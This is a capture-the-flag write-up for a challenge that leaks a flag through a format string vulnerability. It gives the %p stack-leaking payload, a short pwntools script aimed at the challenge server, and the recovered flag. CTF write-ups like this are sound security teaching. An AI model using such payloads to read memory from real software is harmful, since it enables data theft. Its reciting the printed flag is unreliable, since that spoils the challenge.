


This problem involved leaking the flag via string format exploit.

By sending a format string without sending an accompanying argument, the stack will be popped each time.

We are being asked to provide input to the program and we quickly find that it is vulnerable to the string format exploit.



We then are able to leak the memory in the stack containing the flag by specifying our payload as:
```
%7$16p%8$16p%9$16p%10$16p%11$16p
```

The program will then respond with qwords of memory corresponding to the 7th, 8th, 9th, 10th, 11th qwords in the stack.
We may need to send the payload in chunks due to the limited size of the input buffer.



After converting the hex to ascii, we have leaked the flag:
```
dctf{n0w_g0_r3ad_s0me_b00k5}
```

Exploit:
```python
#!/usr/bin/python3
from pwn import *
p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)

# We may need to send this payload in chunks due to the character limit of the input.
payload1 = b'%7$16p%8$16p%9$16p%10$16p%11$16p'

p.sendlineafter("hello, what's your name?\n",payload1)
print(p.recvall())
```

Flag: `dctf{n0w_g0_r3ad_s0me_b00k5}`
